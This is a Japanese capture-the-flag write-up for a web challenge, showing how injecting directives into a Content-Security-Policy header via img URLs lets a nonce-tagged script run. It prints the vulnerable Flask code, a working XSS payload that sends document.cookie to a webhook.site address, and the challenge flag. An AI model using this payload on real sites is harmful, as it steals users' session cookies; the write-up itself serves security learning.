


# Writeup

[csp1.sf.ctf.so](http://csp1.sf.ctf.so/) にアクセスすると、入力フォームが表示される。



scriptタグでXSSを試みる。

```js
<script>document.write("hoge");</script>
```

スクリプトの実行はContent Security Policy(CSP)によって防がれている。

```
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'none'". Either the 'unsafe-inline' keyword, a hash ('sha256-j6r2Eh5tpXDVkX3teOfQfOcZzBMcX025w27wtNr3XAc='), or a nonce ('nonce-...') is required to enable inline execution.
```

ソースコードを見ると、imgタグのsrc要素の値をCSPのヘッダに含めることができると分かる。

```py
def filter_url(urls):
    domain_list = []
    for url in urls:
        domain = urllib.parse.urlparse(url).scheme + "://" + urllib.parse.urlparse(url).netloc
        if domain:
            domain_list.append(domain)
    return " ".join(domain_list)

def display(token):
    user_obj = Post.select().where(Post.token == token)
    content = user_obj[-1].content if len(user_obj) > 0 else "Not Found"
    img_urls = [x['src'] for x in bs(content).find_all("img")]
    tmpl = render_template("display.html", content=content)
    resp = make_response(tmpl)
    resp.headers["Content-Security-Policy"] = "default-src 'none'; connect-src 'self'; img-src " \
                                              f"'self' {filter_url(img_urls)}; script-src 'none'; " \
                                              "style-src 'self'; base-uri 'self'; form-action 'self' "
    return resp
```

scriptタグを実行させるためには`script-src 'none'`の部分をどうにかして無効化しなくてはならない。

CSPヘッダに挿入される値はURLパースされるが、ドメイン部分に`/`が来るまで自由な値が書ける。

これを利用して以下のような入力をすると、

```

```

CSPヘッダは次のようになる。

```
Connection: keep-alive
Content-Encoding: gzip
Content-Security-Policy: default-src 'none'; connect-src 'self'; img-src 'self' https://webhook.site ;script-src 'nonce-hoge'; script-src 'none'; style-src 'self'; base-uri 'self'; form-action 'self'
Content-Type: text/html; charset=utf-8
Date: Sun, 20 Jun 2021 11:10:56 GMT
Server: nginx/1.18.0 (Ubuntu)
Transfer-Encoding: chunked
```

このようにCSPヘッダを設定すると、`<script nonce="hoge"></script>`内のスクリプトが実行できるようになるので、XSSを行う。

```js

<script nonce="hoge">location.href="https://webhook.site/e27c0501-e42a-4eb9-a573-ef6cf99e8f90/?q="+document.cookie;</script>
```

あとは[uv.ctf.so](https://uv.ctf.so/)を使い、adminユーザーに上記スクリプトが実行される`http://csp1.ny.ctf.so/display/664f79ba-dccc-4589-9048-960aa0b9b4e3`にアクセスしてもらえばcookieを取得できる。



<!-- we{2bf90f00-f560-4aee-a402-d46490b53541@just_L1k3_<sq1_injEcti0n>} -->
